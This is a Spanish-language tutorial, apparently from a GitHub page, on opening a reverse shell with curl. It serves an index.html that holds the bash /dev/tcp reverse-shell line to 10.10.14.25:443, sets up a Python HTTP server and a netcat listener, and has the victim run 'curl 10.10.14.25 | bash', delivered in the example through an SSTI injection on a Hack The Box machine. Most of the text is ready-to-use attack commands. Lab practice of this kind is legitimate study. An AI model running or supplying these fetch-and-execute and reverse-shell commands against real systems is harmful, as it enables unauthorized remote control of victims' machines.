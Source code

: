 # Como establecer una reverse Shell con el comando Curl

En este artículo vamos a ver como establecer una `reverse shell` mediante una petición con `Curl`.

## ¿Qué es Curl?

Curl es una herramienta cuya finalidad es transferir datos a través de una URL. Es un comando disponible en la mayoría de los
sistemas basados en Unix. Es una abreviatura de `Client URL`. Los comandos de Curl están diseñados para funcionar como una forma
de verificar la conectividad a las URL y como una gran herramienta para transferir datos.

![Captura de pantalla 2022-07-21 225432](https://user-images.githubusercontent.com/103068924/180313605-edaba56e-d31d-4c74-bf50-4db5bfa3b27e.png)

* Información más detallada del funcionamiento de Curl --> <a href='https://www.hostinger.es/tutoriales/comando-curl' style="text-decoration:none">Link</a>

# Ejecución:

Para realizar esta operación lo primero que debemos comprobar es que podamos realizar la petición desde el equipo víctima y que este tenga Curl instalado.
Una vez tenemos esto solucionado vamos a ver el funcionamiento de manera básica.

Cuando realizamos una petición con Curl desde la máquina víctima:

   curl [Ip de Escucha]
   
   curl 10.10.14.25
   
Y nosotros nos ponemos en escucha desde nuestra terminal, utilizando un servicio HTTP montado con Python 3 por el puerto 80:

   sudo python3 -m http.server 80

El funcionamiento es el siguiente, cuando Curl envía una petición a nuestro equipo, estamos realizando una petición a `HTTP` tratando de conseguir
un `Index.html` (Para poder interpretar la página), aquí es donde viene la trampa.

Lo que nosotros vamos a hacer es crear nuestro propio archivo `index.html`, de forma que por dentro tenga los comandos para establecer una reverse shell con bash.
De esta manera, cuando hagamos la petición por Curl y le ordenemos ejecutarlo con bash se nos abrirá la reverse shell que hayamos establecido.

El archivo `index.html` debe guardarse en el mismo directorio desde donde utilicemos el servicio HTTP. 

# Ejemplo Práctico:

Vamos a necesitar tres terminales, una desde donde ejecutar la petición por Curl desde el equipo víctima, una segunda donde usaremos el servicio HTTP para 
compartir el archivo `index.html` y una tercera donde nos pondremos en escucha con `NetCat` (Aquí recibiremos la reverse shell).

Lo primero que vamos a hacer es preparar nuestro archivo `index.html`, creamos una carpeta llamada `shell` independiente para que nos sea más fácil:

    sudo mkdit shell
    
![Captura de pantalla -2022-07-21 23-14-02](https://user-images.githubusercontent.com/103068924/180318634-9039e512-5dab-4cf7-99fb-d69fe8dcbca0.png)
    
    cd shell
    
![Captura de pantalla -2022-07-21 23-15-05](https://user-images.githubusercontent.com/103068924/180318659-f19f4da8-ff95-44fb-b46a-8f63f949987a.png)

Ahora creamos y definimos nuestro archivo `index.html`:

   sudo nano index.html
   
![Captura de pantalla -2022-07-21 23-15-52](https://user-images.githubusercontent.com/103068924/180318692-e916b8a3-e127-4171-98ee-b01605450d1e.png)
   
Copiamos y pegamos el siguiente código:

```
#!/bin/bash

bash -i >& /dev/tcp/[Vuestra Ip]/[Puesto de escucha de NetCat] 0>&1

```

Debería de quedar algo así:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.25/443 0>&1
```

![Captura de pantalla -2022-07-21 23-16-43](https://user-images.githubusercontent.com/103068924/180318722-2a5ec9c3-9b86-48e4-bcdf-9f47bc9b7fb0.png)

Una vez copiado con vuestros datos, guardáis (Ctrl x O) y salís (Ctrl + X).

Bien, ya tenemos nuestra reverse shell en bash preparada y apuntado al puerto 443. Ahora, desde la misma terminal y permaneciendo en el directorio que contenga
el archivo que acabamos de crear, vamos a ejecutar el servicio HTTP con Python 3 para poder compartir el archivo `index.html`.

    sudo python3 -m http.server 80
    
![Captura de pantalla -2022-07-21 23-18-18](https://user-images.githubusercontent.com/103068924/180318750-583af3f0-3979-408a-8f19-24cbd4ac1e26.png)

![Captura de pantalla -2022-07-21 23-18-32](https://user-images.githubusercontent.com/103068924/180318759-76287747-7934-4bdd-b26b-fcd37566e552.png)
    
Abrimos nuestra segunda terminal y ponemos a `Netcat` en escucha por el puerto 443:

    sudo nc -lvnp 443
    
![Captura de pantalla -2022-07-21 23-18-57](https://user-images.githubusercontent.com/103068924/180318801-a0c03212-776c-406e-b262-ddfeb9f5937e.png)

![Captura de pantalla -2022-07-21 23-19-19](https://user-images.githubusercontent.com/103068924/180318810-361fce3a-2a9c-4a80-84e5-3a9761e055e5.png)
    
Ya tenemos nuestro puerto preparado para recibir la reversehe shell.
    
Finalmente, nos dirigimos a la terminal donde estemos en contacto con la víctima, es este ejemplo realizaré la petición usando BurpSuite ejecutando el comando
dentro de un SSTI. Pero básicamente, lo que debemos es realizar la siguiente petición desde el equipo víctima:

    curl 10.10.14.25 | bash
    
* `Curl` : Realizará la petición y copiará el archivo index.html desde nuestro servidor creado en Python 3.
* `bash` : Ordena la ejecución o interpretación del comando definido dentro del archivo, en nuestro caso, establecer una reverse shell por el puerto 443.

![Captura de pantalla 2022-07-21 231821](https://user-images.githubusercontent.com/103068924/180316903-81849cbf-96b0-4de3-a9f4-c7e0ab2e6610.png)

![Captura de pantalla 2022-07-21 231506](https://user-images.githubusercontent.com/103068924/180316657-1d03c885-ca4e-41b2-b55d-23f1a8e55b59.png)

Como podéis ver, el comando Curl está dentro de la inyección SSTI, de tal forma que ya solo quedaría enviar la petición. También podemos ver como en la terminal del servidor HTTP nos indica un `Get` con código de confirmación `200`.

![Captura de pantalla -2022-07-21 23-19-53](https://user-images.githubusercontent.com/103068924/180319019-ed62f921-811c-4b97-8b3d-2f9557c84a39.png)


Tras ejecutar este último comando se nos tendría que haber abierto una Shell en la terminal por la que estábamos en escucha con NetCat.

![Captura de pantalla -2022-07-21 23-20-30](https://user-images.githubusercontent.com/103068924/180319039-d19ac07c-d705-49d3-ba1f-237aa719bd23.png)

![Captura de pantalla -2022-07-21 23-20-07](https://user-images.githubusercontent.com/103068924/180319054-b99354ac-dc6f-4500-b035-6ce8b802428e.png)

Para este ejemplo hemos utilizado la máquina Nunchuchks de Hack the Box.


---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---

